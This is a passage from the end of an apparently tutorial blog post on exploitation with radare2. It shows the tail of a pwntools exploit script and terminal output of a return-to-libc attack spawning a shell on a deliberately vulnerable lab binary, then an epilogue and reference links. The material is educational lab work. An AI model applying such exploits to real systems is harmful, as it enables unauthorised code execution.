     log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()
</pre>
                    
                    <p>
                      When running this exploit we will successfully spawn a shell:
                    </p>
                    
                    <div style="overflow-x: auto; margin: 0 0 20px;">
                      <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
                        <tr style="height: 19.8594px;">
                          <td style="height: 19.8594px;">
                            $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 24410<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75db710<br /> <span style="color: #00ccff;">[*]</span> libc base: 0xf75ce000<br /> <span style="color: #00ccff;">[*]</span> system is at: 0xf760a060<br /> <span style="color: #00ccff;">[*]</span> /bin/sh is at: 0xf7735768<br /> <span style="color: #00ccff;">[*]</span> exit is at: 0xf75fd1b0<br /> <span style="color: #00ccff;">[+]</span> Here comes the shell!<br /> <span style="color: #00ccff;">[*]</span> Switching to interactive mode:<br /> <span style="color: #cc99ff;">   </span><br /> <span style="color: #cc99ff;">$</span> whoami<br /> beet<br /> <span style="color: #cc99ff;">$</span> echo EOF<br /> EOF
                          </td>
                        </tr>
                      </table>
                    </div>
                    
                    <h2>
                      <span class="ez-toc-section" id="Epilogue"></span>Epilogue<span class="ez-toc-section-end"></span>
                    </h2>
                    
                    <p>
                      Here the second part of our journey with radare2 is coming to an end. We learned about radare2 exploitation features just in a nutshell. In the next parts we’ll learn more about radare2 capabilities including scripting and malware analysis. I’m aware that it’s hard, at first, to understand the power within radare2 or why you should put aside some of your old habits (<em>gdb-peda</em>) and get used working with radare2. Having radare2 in your toolbox is a very smart step whether you’re a reverse engineer, an exploit writer, a CTF player or just a security enthusiast.
                    </p>
                    
                    <p>
                      Above all I want to thank Pancake, the man behind radare2, for creating this amazing tool as libre and open, and to the amazing friends in the radare2 community that devote their time to help, improve and promote the framework.
                    </p>
                    
                    <p>
                      Please post comments or message me <a href="https://www.megabeets.net/about.html#contact">privately</a> if something is wrong, not accurate, needs further explanation or you simply don’t get it. Don’t hesitate to share your thoughts with me.
                    </p>
                    

 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.net/uploads/r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.net/uploads/mainsym.png
 [16]: https://www.megabeets.net/uploads/beetsym.png
 [17]: https://www.megabeets.net/uploads/tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode